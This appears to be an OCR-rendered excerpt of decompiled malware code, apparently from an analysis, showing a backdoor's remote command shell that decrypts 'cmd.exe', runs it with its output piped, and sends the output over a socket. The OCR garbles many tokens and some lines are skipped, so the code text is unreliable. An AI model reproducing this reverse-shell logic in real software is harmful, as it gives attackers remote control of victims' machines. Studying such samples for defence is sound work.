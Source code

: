 35 PipeAttributes.nLength $=12$   
36 PipeAttributes.bInheritHandle $=1$   
37 PipeAttributes.lpSecurityDescriptor $=\textcircled{[-\}$   
38 CreatePipe(hReadPipe,&hWritePipe,&PipeAttributes,0);   
39 CreatePipe(&v22,&g_cmd_pipe_input,&PipeAttributes,0);   
40 StartupInfo.hStdInput $=\times22$   
41 memset(&StartupInfo.lpReserved,0,40);   
42 \*（_QwoRD \*)&StartupInfo.wShowWindow $=$ 0i64;   
43 StartupInfo.cb $\gamma=~68$   
44 StartupInfo.dwFlags $=257$   
45 StartupInfo.hStdoutput $=$ hwritePipe;   
46 StartupInfo.hStdError $=$ hwritePipe;   
47 if（a21=1）   
48 goto LABEL_15;   
49 $\mathrm{~v~i~f~}=\mathrm{~\textcircled~{=~}~}$   
50 \*(_OWORD $\sqrt{2}\times15=0.0754$   
51 $\vee17=\emptyset$ 1   
52 FnWideStrAssign(v15,&unk_45ACE4,7);   
53 LOBYTE(v30)=1;   
54 $\begin{array}{r l}{{}^{+}2}&{{}=}\end{array}$ MwDecryptStr(lpMem,v15); // decrypt result:"cmd.exe"   
88 if (!CreateProcessw(0,v5,0,0,1,0,0,0,&StartupInfo,&ProcessInformation))   
89 return closesocket(s);   
90 LABEL_15:   
91 nNumberofBytesTowrite $=\odot$   
92 $\vee26~=~\Theta$ ，   
93 \*(_OWORD \*)lpBuffer $=$ 0i64;   
94 FnStrAssign(lpBuffer,&word_45ACF4,2u);   
95 v8 $=$ LpBuffer;   
96 if（v26 >θxF )   
97 v8 $=$ (LPCVoID\*)lpBuffer[0];   
98 WriteFile(g_cmd_pipe_input, v8,nNumberofBytesToWrite,0,0);   
99 Sleep(0xc8u);   
100 if (s!=-1’)   
101   
102 while(1)   
103   
104 while（1)   
105   
106 memset(Buffer, 0,sizeof(Buffer));   
107 if ( PeekNamedPipe(hReadPipe[0], 0, 0, 0, &TotalBytesAvail, 0) )   
108 break;   
109 LABEL_27:   
110 GetLastError();   
111 LABEL_28:   
112 Sleep(0x1Eu);   
113   
114 while（1)   
115   
116 if(!TotalBytesAvail   
117 goto LABEL_28;   
118 v9=0x2000;   
119 if（ TotalBytesAvail $<$ θx2000)   
120 v9 $=$ TotalBytesAvail;   
121 if (!ReadFile(hReadPipe[0], Buffer,v9,(LPDWoRD)&hReadPipe[1],0))   
122 goto LABEL_28;   
123 if (v9 $==$ 0x2000）   
124 Buffer[0x1FFF] $=\Theta$ ；   
125 v10 $=$ send(s,Buffer，v9,θ); $1/\l$ 发送cmd输出结果  
